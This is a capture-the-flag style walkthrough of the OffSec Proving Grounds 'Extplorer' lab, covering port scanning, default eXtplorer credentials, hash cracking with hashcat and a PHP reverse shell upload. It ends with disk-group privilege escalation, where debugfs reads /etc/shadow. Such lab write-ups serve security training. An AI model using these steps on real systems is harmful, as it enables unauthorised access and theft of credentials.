

# Extplorer — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Linux

---

## TL;DR

eXtplorer file manager with default credentials → crack dora's password hash → PHP reverse shell upload → disk group privilege → `debugfs` to read `/etc/shadow` → crack root hash → root.

---

## Enumeration

```bash
sudo nmap -sC -p- -n -Pn -sV --min-rate=9362 192.168.183.16 -oN nmap.txt
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu |
| 80 | HTTP | Apache httpd 2.4.41 |

Gobuster reveals:
- `/filemanager` — eXtplorer file manager
- `/wordpress` — WordPress installation (needs setup)
- `/wp-admin`, `/wp-content`, `/wp-includes` — WordPress directories

---

## Exploitation — File Manager Access + PHP Upload

The eXtplorer file manager at `/filemanager` accepts **default credentials**: `admin:admin`.

Inside the file manager, we find a user config at `/var/www/html/filemanager/config/.htusers.php`:

```php
$GLOBALS["users"]=array(
  array('admin','21232f297a57a5a743894a0e4a801fc3','/var/www/html','http://localhost','1','','7',1),
  array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS','/var/www/html','http://localhost','1','','0',1),
);
```

Crack dora's bcrypt hash with hashcat:

```bash
hashcat -m 3200 dora.hash /usr/share/wordlists/rockyou.txt --force
# dora:doraemon
```

Now use the file manager to upload a **PHP reverse shell** to the `/wp-content` directory:

```
http://192.168.183.16/wp-content/php-reverse-shell.php
```

We get a shell as `www-data`. Then switch to dora:

```bash
su dora
# Password: doraemon
```

---

## Privilege Escalation — Disk Group + debugfs

Running linpeas, we discover that dora is part of the **disk group**.



The disk group allows direct raw access to disk devices, which means we can read any file on the filesystem using `debugfs`:

Reference: [HackTricks — Disk Group Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#disk-group)

```bash
df -h
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs: cat /etc/shadow
```

We extract the root hash:

```
$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.
```

Crack it with hashcat:

```bash
hashcat -m 1800 root.hash /usr/share/wordlists/rockyou.txt --force
# root:explorer
```

```bash
su root
# Password: explorer
```

**Root.** 🎉

---

## Key Takeaways

- **Disk group membership** is a critical misconfiguration — it grants raw disk access, allowing you to read any file including `/etc/shadow`
- **`debugfs`** is the tool to use when you have disk group access — think of it as a filesystem-level shell
- **eXtplorer** default credentials + file upload = easy initial foothold
- Multiple hash cracking rounds (bcrypt for user, SHA-512 for root) are common in these chains

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
